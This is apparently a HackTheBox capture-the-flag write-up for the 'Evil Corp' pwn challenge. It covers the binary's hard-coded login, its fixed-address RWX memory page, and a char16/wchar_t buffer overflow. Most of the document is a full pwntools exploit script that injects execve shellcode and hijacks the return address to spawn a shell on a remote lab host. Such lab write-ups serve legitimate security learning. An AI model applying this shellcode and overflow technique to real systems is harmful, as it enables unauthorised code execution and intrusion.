










- 
- NX+PIE, 64 bit, immediately think of 2 ROP chains to `ret2libc`, first we tryna leak the absolute addr of some function in our binary and then find the piebase, then try to see if there is some `puts` or other function that can leak their own libc addr via the `GOT` table, s.t. we can have the libc base and then `system(/bin/sh)`
- We are met with a login wall and it seems like both fields have buffer overflow bugs, but when I open this binary in ghidra I found out we have to first login to see a bunch of functions inside, thus I only think we have to try to find a way to login
    - 
- 
- The creds are hard coded! `eliot:4007`
    - 
- If we dig deeper into `Contact Support`, we can spot the buffer overflow!
    - 
- So now we have the place to do buffer overflow, but we are still missing something, if we dig deep inside the `setup()` function:
    - 
- Renaming variables:
```c
void Setup(void)
{
  setlocale(LC_ALL, "en_US.UTF-8");          // 6 = LC_ALL
  setvbuf(stdin,  NULL, _IONBF, 0);          // 2 = _IONBF (no buffering)
  setvbuf(stdout, NULL, _IONBF, 0);

  SupportMsg       = mmap((void*)0x10000, 0x4b0, PROT_READ|PROT_WRITE,
                          MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS|MAP_NORESERVE, -1, 0);
  AssemblyTestPage = mmap((void*)0x11000, 0x800, PROT_READ|PROT_WRITE|PROT_EXEC,
                          MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS|MAP_NORESERVE, -1, 0);
}
```
- We can see `mmap` here, for `SupportMsg`, it asks the kernel for memory at `0x10000`, length `0x4b0 = 1200 bytes`, has `read,write` access, with `fd = -1`, `offset = 0`
- for `AssemblyTestPage`, it asks the kernel for memory at `0x11000`, length `0x800 = 2048 bytes`, has `read,write,exec` access, with `fd = -1`, `offset = 0`
- Note that we see due to `mmap` in play here, `NX` on the stack is basically useless now, because we see the test page is `RWX`, and it overwrites the `NX` rules
- `PIE` is also basically useless now, cause the memory address is hardcoded. Combining these in the buffer overflow we just found the `ContactSupport()`, we have an attack chain:
    - Inject shellcode at `0x11000` -> logout -> buffer overflow the `login()` function to redirect to the shellcode at `0x11000`
        - To be more specific, when we reach the function `ContactSupport()`, our input gets stored in `SupportMsg`, which sits at `0x10000`, so we want to fill exactly `0x1000` bytes of buffer, then followed by the shellcode.
        - Note that we write in `char16`, which 1 character -> 2 bytes, so we actually only need to write `0x1000 / 2 = 0x800` bytes as buffer to land at exactly `0x11000`.
        - Then, we can logout, and login again, this time overflowing `login()`, what we do is we see
        - 
        - And we know that the limit is 300 bytes, but note that the data type of input here is 
        - 
        - Which turns a char -> 4 bytes, so now we want to hijack RIP and let it point to our shellcode at `0x11000`, but what's the offset to RIP? We have 2 ways to do so:
            - Check assembly
                - 
                - We can see at first, we push RBX onto the stack, which is 8 bytes used, and then followed by `SUB RSP, 0x150`, means we subtract the stack pointer `RSP` by 150 bytes, which means create 150 bytes of space (memory grows toward the smaller addresses)
                    - 
                - Thus the offset is `0x150 + 8 = 0x158`, BUT remember we said `a char -> 4 bytes` in this scenario due to `wchar_t`, so we need to divide by 4 => 86 bytes
            - Cyclic pattern (though more difficult here due to encoding)
```python
#!/usr/bin/env python3
# =============================================================================
#  HackTheBox - "Evil Corp" (pwn, medium) - exploit
#
#  The plan, in two moves (same as we worked through):
#    MOVE 1 (ContactSupport): overflow the 0x10000 buffer so our shellcode
#            spills into the adjacent 0x11000 RWX page. => shellcode is now
#            parked in executable memory at a FIXED address.
#    MOVE 2 (Login password): overflow the stack buffer, overwrite the saved
#            return address with 0x11000. When Login() does `ret`, the CPU
#            jumps into our parked shellcode => /bin/sh.
#
#  Two kinds of number to keep straight:
#    - 0x11000  : an ABSOLUTE ADDRESS. Safe to hardcode because MAP_FIXED
#                 pins it every run, so PIE/ASLR don't move it.
#    - 86        : a DISTANCE (in characters) to the return address. Works
#                 regardless of where the stack is, because it's a gap, not
#                 an address.
# =============================================================================

from pwn import *

context.arch = 'amd64'          # 64-bit x86. Lets asm() / shellcraft target the right CPU.
context.log_level = 'debug'      # switch to 'debug' to see every byte sent/received

# --- connect ----------------------------------------------------------------
# Local testing first, then flip to remote once it works locally.
LOCAL = False
if LOCAL:
    io = process('./evil-corp')          # >>> ADJUST: your binary's filename
    # If you want to attach GDB while it runs, uncomment:
    # gdb.attach(io, 'b *Login\nc')
else:
    io = remote('154.57.164.76', 36695)           # >>> ADJUST: HTB docker host + port


# =============================================================================
#  SHELLCODE  -  execve("/bin//sh", NULL, NULL)
# =============================================================================
# "/bin//sh" (the extra slash just pads it to a clean 8 bytes; the kernel
# treats // as /). We build it as raw machine code and inject it in MOVE 1.
shellcode = asm('''
    xor    rsi, rsi                      /* rsi = 0  (argv = NULL)        */
    push   rsi                           /* push the NULL terminator      */
    movabs rdi, 0x68732f2f6e69622f       /* "/bin//sh" little-endian      */
    push   rdi
    mov    rdi, rsp                      /* rdi -> "/bin//sh" on the stack */
    xor    rdx, rdx                      /* rdx = 0  (envp = NULL)        */
    xor    rax, rax
    mov    al, 0x3b                      /* rax = 59 = execve syscall #   */
    syscall
''')
# (If asm() ever complains about a missing assembler, you can drop the raw
#  bytes in instead:)
# shellcode = bytes.fromhex('4831f6564...0f05')


# =============================================================================
#  The encoding trick (MOVE 1 only)
# =============================================================================
# ContactSupport reads your text as UTF-8 -> wchar_t, then wcharToChar16()
# keeps the LOW 16 bits of each wchar and stores them little-endian (2 bytes).
# So to make shellcode bytes b0,b1 appear in memory, we emit ONE codepoint
# whose low 16 bits = b0 | (b1<<8), i.e. U+(b1 b0). Sending it as UTF-8 and
# letting the program decode it round-trips back to our two raw bytes.
def encode_for_char16(sc: bytes) -> bytes:
    if len(sc) % 2:                      # the trick works on 2-byte pairs...
        sc += b'\x90'                    # ...so pad odd-length shellcode with a NOP
    out = ''
    for i in range(0, len(sc), 2):
        codepoint = sc[i] | (sc[i + 1] << 8)
        # Gotcha: codepoints 0xD800-0xDFFF are UTF-16 surrogates and can't be
        # UTF-8 encoded. This shellcode avoids that range. If you swap in your
        # own and hit UnicodeEncodeError, that's why.
        out += chr(codepoint)
    return out.encode('utf-8')


# =============================================================================
#  Menu / IO helpers
#  >>> ADJUST every recvuntil() string below to match your binary's actual
#      prompts. Run the binary by hand once and copy the exact wording.
# =============================================================================
def login(username: bytes, password: bytes, newline: bool = True):
    io.recvuntil(b'Username')             # >>> ADJUST
    io.sendline(username)
    io.recvuntil(b'Password')             # >>> ADJUST
    if newline:
        io.sendline(password)             # normal case: fgetws stops on the newline
    else:
        io.send(password)                 # overflow case: NO newline (see MOVE 2)

def contact_support(message: bytes):
    io.recvuntil(b'>> ')                  # main menu prompt
    io.sendline(b'2')                     # option 2 = Contact Support
    io.recvuntil(b'issue')                # "...describe your issue..." prompt
    io.sendline(message)                  # newline ends the message; it lands AFTER
                                          # the shellcode in RWX mem and is never run

def logout():
    io.recvuntil(b'>> ')                  # main menu prompt
    io.sendline(b'3')                     # Logout = option 3


# =============================================================================
#  MOVE 1 - plant the shellcode at 0x11000
# =============================================================================
login(b'eliot', b'4007')                  # creds are hardcoded in .rodata

# 0x800 'A' chars -> each becomes a 2-byte char16 -> 0x1000 bytes -> exactly
# fills the 0x10000 page. Everything AFTER this lands at 0x11000 (the RWX page).
padding  = 'A' * 0x800
payload1 = padding.encode('utf-8') + encode_for_char16(shellcode)
contact_support(payload1)
log.success('Move 1 done: shellcode parked at 0x11000')


# =============================================================================
#  MOVE 2 - hijack the return address
# =============================================================================
logout()                                  # back to logged-out state so we can
                                          # hit the Login() overflow again

# The 8-byte return address must become 0x0000000000011000, written as TWO
# wchars by fgetws:
ret_lo = b'\xf0\x91\x80\x80'              # UTF-8 for U+11000  -> wchar 0x00011000 (low 4 bytes)
ret_hi = b'\x00'                          # UTF-8 for U+0000   -> wchar 0x00000000 (high 4 bytes)
                                          # fgetws does NOT stop on this null wchar.

overflow  = b'C' * 86                     # 86 chars of filler to reach the ret slot
overflow += ret_lo                        # char 86 -> low half of ret addr
overflow += ret_hi                        # char 87 -> high half (must be zero)
overflow += b'D' * 211                    # fill up to 299 wchars total (86+1+1+211)

# CRITICAL: send with NO newline. fgetws's limit is 300, so it returns on its
# own after 299 chars. A trailing '\n' would be written into the ret-addr high
# bytes and corrupt the address.
login(b'eliot', overflow, newline=False)
log.success('Move 2 sent: Login should ret into 0x11000')

# Login() runs to its end, hits `ret`, pops 0x11000 into RIP -> shell.
io.interactive()                          # now: cat flag
```

- 
